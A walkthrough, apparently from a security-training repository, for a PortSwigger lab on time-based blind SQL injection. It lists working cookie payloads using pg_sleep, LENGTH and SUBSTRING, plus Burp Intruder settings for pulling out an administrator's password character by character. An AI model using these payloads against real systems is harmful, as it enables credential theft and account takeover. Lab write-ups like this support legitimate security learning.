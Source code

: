 # Blind SQL injection with time delays and information retrieval

## Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. Exploiting the blind SQL injection vulnerability gives the password of the administrator user. 

## Reproduction and proof of concept

1. Visit the Home page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
2. Modify the TrackingId cookie, changing it to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
    
Verify that the application takes 10 seconds to respond.

3. Now change it to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

The application responds immediately with no time delay, demonstrating how to test a single boolean condition and infer the result.

4. Change it to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
The condition is true, confirming that there is a user called `administrator`.

5. The next step is to determine how many characters are in the password of the administrator user:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
This condition is true, confirming that the password is greater than 1 character in length.

6. Send a series of follow-up values to test different password lengths. Send:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
Then send:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
And so on. Do this manually using Burp Repeater, because the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), the length of the password is known. It is 20 characters long.

7. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests. Send the request to Burp Intruder, using the context menu.
8. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
9. In the Positions tab, change the value of the cookie to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. The attack has to cycle through each position and possible value, testing each one in turn.

10. Place payload position markers around the a character in the cookie value. Select the `a`, and click the "Add §" button (note the payload position markers):

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![SQLi](../../_static/images/sqli25.png)
    
11. To test the character at each position, send suitable payloads in the payload position defined. In this lab, assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range `a-z` and `0-9`. Select these using the "Add from list" drop-down.

![SQLi](../../_static/images/sqli26.png)

12. To be able to tell when the correct character was submitted, monitor the time taken for the application to respond to each request: Configure the Intruder attack to issue requests in a single thread: Go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.

![SQLi](../../_static/images/sqli27.png)

13. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
14. Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check "Response received".

![SQLi](../../_static/images/sqli28.png)

15. Review the attack results to find the value of the character at the first position. There should now be a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows will have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.

![SQLi](../../_static/images/sqli29.png)

16. Re-run the attack for each of the other character positions in the password, to determine their value: Go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from `1` to `2`:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
17. Launch the modified attack, review the results, and note the character at the second offset.
18. Continue this process testing offset `3`, `4`, and so on, until the whole password is known.
19. In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.

![SQLi](../../_static/images/sqli30.png)
